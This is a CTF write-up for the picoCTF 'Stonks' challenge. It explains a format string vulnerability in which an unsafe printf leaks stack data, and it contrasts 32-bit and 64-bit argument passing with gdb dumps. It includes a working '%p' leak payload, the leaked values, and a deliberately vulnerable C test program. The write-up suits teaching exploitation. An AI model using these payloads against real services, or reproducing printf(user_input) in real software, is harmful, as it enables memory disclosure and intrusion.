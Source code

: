 # Stonks

## Problem Definition

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

## Solution

When we examine the program with a code editor we see that it's using the unsafe version of `printf` when getting the users' authorization token.

With the unsafe version of `printf` we can then dump content of the binary and execute code. Also, important to know for this are calling conventions. When first looking at the problem we noticed that the server was dumping _some_ data from the program but not which data.

Consider our experimental setup from below:

`$ ./vuln < <(python3 -c "print(1);print('%p.' * 20)")`

Which dumped us the following values from the program.

```html
0x1.0x1.0x7f3008bc6190.0x55744ead10d5.0x7f3008ca0a80.0x7ffdc1c45b20.0x55744f6d52a0.
0x7b4654436f636970.0x5f737469625f3631.0x5f64343374736e69.0x3636325f385f666f.
0x7d3032633438.0x7f3008ca0260.0x55744ead3080.0x7f3008c9d5e0.0x7f3008cf0020.
0x7f3008b4fe79.0x7f3008ca1760.0x7f3008b50283.0x14.
```

While we know that some of the values are ascii characters we could not find indicators as to why the first to variables were `1`s. The solution was that under `64 bit` Linux the calling convention for syscalls takes arguments from the registers first, unlike with `32 bit` Linux. When compiling the binary under `32 bit` with the flag `-m32` in `gcc` we see that we get a different result:

```
0x567bb3d0.0x565caff4.0x565c84ae.0xf7f76da0.0x7d4.0xf7f76de7.0x6f636970.0x7b465443.
0x625f3631.0x5f737469.0x74736e69.0x5f643433.0x385f666f.0x3636325f.0x32633438.
0xff007d30.0xf7fcac18.0xf7f8e800.0x1.0x1.
```

### Verification of our Hypotheses

To verify this hypotheses we constructed a smaller binary from this source:

```c
#include<stdio.h>
#include <string.h>

int main()
{
    char str[15];
    char *secret="You don't get to see this";
    puts("I will repeat whatever you say");
    scanf("%s",str);
    strcat(str, "\n");
    printf(str);
    return 0;
}
```

Verification with `gdb` indicated that it was indeed the case that `printf` took variables for the `32 bit` version from the stack first instead of using the registers like in the `64 bit` version. We used the format string `%p.%p.%p.%p.%p.%p.` and got `0xffffcd3d.0xf7da8a2f.0x565561d4.0xf7fc14a0.0xf7fd98cb.0xf7da8a2f.` as an answer. This is verified by taking a look at the stack from `gdb` at the time when `printf` is called. Since `printf` now takes all arguments from the stack we also see that we leak pointers that lie behind this.

```c
[----------------------------------registers-----------------------------------]
EAX: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EBX: 0x56558ff4 --> 0x3ef0
ECX: 0x330d ('\r3')
EDX: 0x12
ESI: 0x56558eec ("`aUV\001")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffcd58 --> 0x0
ESP: 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EIP: 0x5655622d (<main+112>:    call   0x56556040 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56556226 <main+105>:       sub    esp,0xc
   0x56556229 <main+108>:       lea    eax,[ebp-0x1b]
   0x5655622c <main+111>:       push   eax
=> 0x5655622d <main+112>:       call   0x56556040 <printf@plt>
   0x56556232 <main+117>:       add    esp,0x10
   0x56556235 <main+120>:       mov    eax,0x0
   0x5655623a <main+125>:       lea    esp,[ebp-0x8]
   0x5655623d <main+128>:       pop    ecx
Guessed arguments:
arg[0]: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0004| 0xffffcd24 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0008| 0xffffcd28 --> 0xf7da8a2f ("_dl_audit_preinit")
0012| 0xffffcd2c --> 0x565561d4 (<main+23>:     add    ebx,0x2e20)
0016| 0xffffcd30 --> 0xf7fc14a0 --> 0xf7d8c000 --> 0x464c457f
0020| 0xffffcd34 --> 0xf7fd98cb (mov    edi,eax)
0024| 0xffffcd38 --> 0xf7da8a2f ("_dl_audit_preinit")
0028| 0xffffcd3c --> 0x2e7025a0
[------------------------------------------------------------------------------]
```
